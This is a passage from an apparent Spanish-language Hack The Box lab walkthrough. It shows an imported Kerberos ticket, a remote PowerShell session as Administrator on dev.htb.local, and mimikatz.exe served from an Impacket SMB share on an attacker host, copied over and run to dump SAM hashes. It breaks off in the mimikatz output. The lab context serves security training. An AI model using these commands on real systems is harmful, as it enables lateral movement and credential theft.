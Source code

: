```powershell
      Pat+XGYsphghc41qVJUujKWgahW8Y1B20+NUYwJR61OKS4bU0URenimt143szOKD78PPBksgB4hBp0ca
      AUeM9GXG2OKhKGrqT3YHod51vFFievSo6uHRSeAXa4g+zp0RPgDDTIzQi99715sUhu6EfQIMIht8eiRc
      6c5zNETD0HXPGPdEf/8uKEyX8sg7vgEUrHCslB2U4pHEltQXpxxkUjCs4mw2CJkaun5HbeFQ7SofOYBP
      FqFGfUrv+MijzG+aLRzJ3ACgtLHW+YR3zKM+ZN+okrReT6GhVZZQxgcXJR0cuHbehbORV6DyJvZd7nnd
      Kq/iKh2jR5fh1zJLdkZSMO8tOPUzhV9SvznGJj0TOMzpfzAXZ4P4wPGnRSNtmZP76/7C98XnzzrJousO
      fRD3EVyLhglHNQd1WbARIX44ExY7cHTLlGQRnJUQ95okVmpGJgTO2/NOXkP3cJitiqYQKDgnmAqjfLwa
      5VFncZ5ABQgIS7vjxF6kkAYfReNqKY8TaNtH5I1g9GYJ7Qm4KwqAbGVClh0aayz69f+geiDLP7PES3E9
      GFgD9ko4wKqyvNGZsEVsSkQgxq98NUmAmKOu4KBprVC8r6/jO8yqFbAXUR0MwoT0Yjb8tDTsEbw23iBD
      JEOZqcufDtqqrENavVkt6AKAUk+lT0JvXJYH6aJFw6O6Np7QDW3u8k04d2+epuWOPYAmZe7hsC6u9Y/8
      Sth1W5eVjLuQBoY+GmLVkvbi89H4d8QXmjpQ/Cd3c5aLHevdZANGzLechotR8qnblugrlSXfbMCHjfh/
      6QnFtaaqt4qplSzf6/lMDNdXYYcq2vk+4gFSG1bEg3D81xAlqlHn1yzL1F8eQBzOaks+N+OvXEjD3Hh9
      RjAXk7vc1YDK48oM5y9VfWkLfpNPy0yxKSMa3Tf5GJisX00s7PH5jiWnf++fF6LQBYZ4Alp/7xy4NTmT
      eXPpUmL/5toocIjK3WMD+odn4zOwBYG3I8zgx5A7r4RtYWlc6XTFH6K/biFiKKbc27WD1L5kyRbdFOaW
      14NgWMlODdPg/D8z8Zp99Mgbw78pz+lwJde9evdI8LE1s6kaPO45PR+E4PBBzHRPDGzu8FvOWlu0CWoR
      w3aN4InegqOB5DCB4aADAgEAooHZBIHWfYHTMIHQoIHNMIHKMIHHoCswKaADAgESoSIEINwGLNlsEGJR
      WkijUFG4GWTED++soOLAnJZPjv4HG7n9oQsbCUhUQi5MT0NBTKIaMBigAwIBCqERMA8bDWFkbWluaXN0
      cmF0b3KjBwMFAAChAAClERgPMjAyMzA0MzAwMzI4MDJaphEYDzIwMjMwNDMwMTMyODAxWqcRGA8yMDIz
      MDUwNzAzMjgwMVqoCxsJSFRCLkxPQ0FMqSAwHqADAgEBoRcwFRsEaHR0cBsNZGV2Lmh0Yi5sb2NhbA==

[+] Ticket successfully imported!

PS C:\Users\pc1\Desktop>
```

Una vez importado el ticket, utilizamos Enter-PSSession para conectarnos a dev.htb.local, lo cual se autenticará con el ticket y nos proporcionará una sesión de PowerShell como Administrador.

Desde nuestro sistema Linux, crearemos un servicio SMB utilizando smbserver de Impacket, donde compartiremos el archivo compilado de mimikatz.exe, con soporte para SMBv2.

```powershell
PS C:\Users\pc1\Desktop> Enter-PSSession -ComputerName dev.htb.local  
[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
htb\administrator
[dev.htb.local]: PS C:\Users\Administrator\Documents>
```

```bash
❯ impacket-smbserver kali . -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0  
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

En la sesión de Administrator en dev.htb.local, procedemos a copiar el archivo mimikatz.exe y lo utilizamos para realizar el volcado de la SAM del equipo, con el fin de visualizar los hashes NTLM.

```powershell
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # token::elevate
Token Id  : 0
User name :
```